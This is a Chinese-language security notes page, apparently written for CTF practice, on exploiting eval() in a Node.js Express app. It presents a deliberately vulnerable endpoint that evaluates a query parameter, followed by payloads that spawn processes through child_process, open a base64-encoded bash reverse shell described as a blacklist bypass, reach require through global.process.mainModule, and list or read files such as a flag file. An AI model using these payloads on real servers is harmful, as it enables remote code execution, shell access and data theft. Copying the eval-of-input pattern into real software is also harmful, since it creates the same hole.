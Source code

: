 eval()函数执行其中的js代码，和PHP的eval函数一样

```javascript
const express = require("express");
const app = express();

app.get('/', function(req,res){
	res.end('Try to RCE');
})

app.get('/evil', function(req, res){
	res.send(eval(req.query.q));
	console.log(req.query.q);
})


const server = app.listen(8888, function(){
	console.log("Server Starts http://127.0.0.1:8888/")
})
```

Node.js中的child_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令。

> 弹计算器 q=require('child_process').exec('calc');
>
> 反弹shell q=require('child_process').exec('echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYx|base64 -d|bash');   // base64编码绕过黑名单
>
> // bash -i >& /dev/tcp/127.0.0.1/3333 0>&1
>
> 注意：BASE64加密后的字符中有一个+号需要url编码为%2B(URL传参时)

对于Function来说上下文并不存在require，需要从global中一路调出来exec。若上下文没有require，可以使用`Function("global.process.mainModule.constructor._load('child_process').exec('calc')")();`
或`Function("global.process.mainModule.require('child_process').exec('calc')")();`

![image-20221224225516768](E:\MyBook\Node_Park\.gitbook\assets\image-20221224225516768.png)

其他函数：

间隔两秒执行函数：

- setInteval(some_function, 2000)

两秒后执行函数：

- setTimeout(some_function, 2000);



```javascript
> ?eval=require('child_process').execSync('ls');
> ?eval=require('child_process').execSync('ls').toString();
> ?eval=require('child_process').spawnSync('ls').output;
> ?eval=require('child_process').spawnSync('ls').stdout;
>
> ?eval=require('child_process').execSync('cat fl00g.txt');
> ?eval=require('child_process').spawnSync('cat',['fl00g.txt']).output;

> 读文件
> ?eval=require('fs').readdirSync('.');
> ?eval=require('fs').readFileSync('fl00g.txt');
```

有时候在命令执行中使用全局变量去探测可能会有奇效
`__dirname`、`__filename`